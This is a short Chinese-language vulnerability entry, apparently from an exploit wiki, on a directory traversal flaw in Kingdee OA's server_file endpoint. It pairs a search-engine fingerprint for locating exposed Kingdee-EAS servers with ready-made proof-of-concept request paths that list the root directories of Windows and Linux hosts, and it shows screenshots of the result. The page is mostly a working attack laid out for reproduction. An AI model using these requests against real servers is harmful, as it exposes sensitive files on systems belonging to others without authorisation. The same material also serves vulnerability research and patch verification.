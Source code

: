 # 金蝶OA server_file 目录遍历漏洞

## 漏洞描述

金蝶OA server_file 存在目录遍历漏洞，攻击者通过目录遍历可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>金蝶OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Kingdee-EAS"</a-checkbox></br>

## 漏洞复现

登录界面为



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210603132948792.png)

漏洞POC

```plain
/appmonitor/protected/selector/server_file/files?folder=/&suffix=
Windows服务器

appmonitor/protected/selector/server_file/files?folder=C://&suffix=

Linux服务器
appmonitor/protected/selector/server_file/files?folder=/&suffix=
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210603133136331.png)
